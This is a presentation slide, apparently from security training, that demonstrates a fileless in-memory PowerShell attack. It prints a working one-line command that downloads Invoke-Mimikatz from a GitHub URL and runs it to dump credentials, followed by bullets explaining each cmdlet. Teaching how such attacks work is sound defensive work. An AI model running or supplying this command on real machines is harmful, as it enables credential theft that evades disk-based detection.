

# In Memory Attacks: PowerShell Demo
C:\Windows\system32>powershell.exe -command "Invoke-Expression -Command (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Burnd9671/Invoke-Mimikatz/master/Invoke-Mimikatz.ps1');Invoke-Mimikatz ”

Invoke-Expression (IEX) cmdlet execute the command provided on the local machine.
New-Object cmdlet creates an instance of a .NET Framework or COM object, here a net.webclient object.
The downloadstring will download the contents from <url> into a memory buffer (which in turn IEX will execute).
Everything Happens in Memory.